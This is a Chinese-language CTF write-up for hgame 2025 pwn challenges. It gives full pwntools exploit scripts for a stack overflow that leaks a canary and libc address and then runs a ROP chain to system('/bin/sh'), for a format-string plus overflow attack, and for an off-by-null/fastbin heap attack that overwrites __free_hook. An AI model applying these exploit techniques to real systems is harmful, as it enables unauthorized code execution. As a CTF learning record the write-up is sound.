








# hgame 2025 pwn writeup(部分)


os：太久没做了老犯蠢

## w1

#### ***counting petals\***

漏洞在于向v7中读取数据的过程中存在溢出可以覆盖v8，从而修改v8为某个大于16的值，最后泄露地址，然后在第二次循环时故技重施直接溢出弹shell



```
from pwn import *
#io = process('./vuln')
io = remote('119.45.167.173',31519)
libc = ELF('libc.so.6')
elf = ELF('./vuln')
context(os='linux',arch='amd64',log_level='debug')
log.info("first times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'99')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'429496729699')
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.recvuntil(b' + 429496729699 + ')
canary = int(io.recvuntil(b' ',drop=True),10) 
io.recvuntil(b'+ 1 + ')
libc_base = int(io.recvuntil(b' ',drop=True),10) -0x7fcf70b1dd68 + 0x7fcf70af4000 -0x28
log.info("libc_base : "+str(hex(libc_base)))

sys_addr = libc.symbols['system']+libc_base
binsh = next(libc.search(b'/bin/sh')) + libc_base
pop_rdi_ret = 0x2a3e5 +  libc_base
ret = 0x29139 + libc_base 
log.info("second times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'21')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'68719476758')
io.sendlineafter(b' : ',str(canary).encode())
io.sendlineafter(b' : ',b'0')
io.sendlineafter(b' : ',str(pop_rdi_ret).encode())
io.sendlineafter(b' : ',str(binsh).encode())
io.sendlineafter(b' : ',str(ret).encode())
io.sendlineafter(b' : ',str(sys_addr).encode())
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.interactive()
```



#### ***ezstack\***

虚拟机配docker一直起不来，大概说下思路，感觉应该是先栈迁puts(puts@got)然后再迁一次ORW

#### ***format\***

漏洞在于vuln函数整数解析错误可以溢出，溢出可以覆盖format[4]、v5、v6、i，然后直接改返回地址到循环内最后一次printf的地址，这样就可以利用我们覆盖的数据泄露libc地址，最后再通过vuln函数溢出



```
from pwn import *
#io = process('./vuln')
io = remote('node2.hgame.vidar.club',30453)
elf = ELF('./vuln')
libc = ELF('libc.so.6')
context(os='linux',arch='amd64',log_level='debug')
log.info("use FMT to leak some addr")
io.sendlineafter(b' n = ',b'1')
sleep(0.1)
io.sendlineafter(b'type something:',b'%p')
sleep(0.1)
io.recvuntil(b'you type: ')
rbp_addr = int(io.recvuntil(b'y',drop=True).decode(),16)+0x7ffe63ae45d0-0x7ffe63ae4410 + 0x7ffcef294e90 -0x7ffcef292f20
log.info("leak_rbp_addr : "+str(hex(rbp_addr)))
log.info("Okay! Let's overflow!!!")
io.sendlineafter(b' n = ',b'-1')
io.send(b'a'*5+p64(rbp_addr)+p64(0x4012cf)+b'%3$p'+p32(0xffffffff)+p64(0))
io.recvuntil(b'something:')
libc_addr = int(io.recvuntil(p32(0xffffffff),drop=True).decode(),16)-0x7f1865be66dd+0x7f1865ae0000+0x3000+0x7f1947000000-0x7f1947011105
log.info("libc_addr : "+str(hex(libc_addr)))
log.info("Okay! Let's overflow the second times!!!")
sys = libc_addr + libc.symbols['system']
binsh = libc_addr + next(libc.search(b'/bin/sh'))
pop_rdi_ret = 0x2a3e5 + libc_addr
ret = 0x29139 + libc_addr
#gdb.attach(io)
log.info("rdi_addr : "+str(hex(pop_rdi_ret)))
log.info("binsh_addr : "+str(hex(binsh)))
log.info("sys_addr : "+str(hex(sys)))
pl = b'a'*4
pl += p64(rbp_addr)
pl += p64(pop_rdi_ret)
pl += p64(binsh)
pl += p64(ret)
pl += p64(sys)
io.send(pl)
io.interactive()
```



#### ***Compress dot new\***

有时候不得不感慨deepseek是真的强，直接就把揭秘脚本嗦出来了




#### ***Turtle\***

需要先手动脱个壳，然后丢给deepseek

os:deepseek…, 这就是神吗…




***Level 24 Pacman\***

先禁止JS执行，F12看到后台两个JS文件，穿过去看到两串疑似flag的密文，base64+Fence解密



# w2

#### **Signin2Heap\**

off-by-null + fastbin attack

```
from pwn import *
io = process('./vuln')
context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.27.so')
a = str(chr(0))
b = str(chr(1))
c = str(chr(2))
d = str(chr(3))
def add(idx,size,con):
    io.sendafter(b'Your choice:',(b+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
    io.sendlineafter(b'Size: ',str(size).encode())
    io.sendafter(b'Content: ',con)
 
def free(idx):
    io.sendafter(b'Your choice:',(c+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())

def show(idx):
    io.sendafter(b'Your choice:',(d+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
log.info("leak_addr && off_by_one")
for i in range(7):
    add(i,0xf8,b"aaaa")
add(7,0xf8,b"7")#7
add(8,0x68,b"8")#8
add(9,0xf8,b"9")#9
add(10,0x68,b'10')

for i in range(7):
    free(i)
free(8)
free(7)
add(0,0x68,b"a"*0x60+p64(0x70+0x100))
free(9)
add(7,0x78,b'aaaa')
add(8,0x78,b'aaaa')
show(0) #key
libc_addr = u64(io.recvuntil(b'\x0a',drop=True).ljust(8,b'\x00')) + 0x7f2bf4a00000 - 0x7f2bf4debca0
log.info("libc addr: "+str(hex(libc_addr)))
free_hook = libc_addr + libc.symbols['__free_hook']
sys_addr = libc_addr + libc.symbols['system']
log.info("free_hook addr: "+str(hex(free_hook)))
log.info("sys_addr addr: "+str(hex(sys_addr)))
add(15,0x68,b'b')
free(7)
free(8)
log.info("fastbins attack")
for i in range(1,8):
    add(i,0x68,b'1')
for i in range(1,8):
    free(i)
free(15)
free(10)
free(0)
for i in range(1,8):
    add(i,0x68,b'a')
add(14,0x68,p64(free_hook))
add(13,0x68,b'/bin/sh\x00')
add(12,0x68,b'/bin/sh\x00')

add(11,0x68,p64(sys_addr))
free(13)
gdb.attach(io)
io.interactive()
```



***Where is the vulnerability\***

house of apple2 + orw
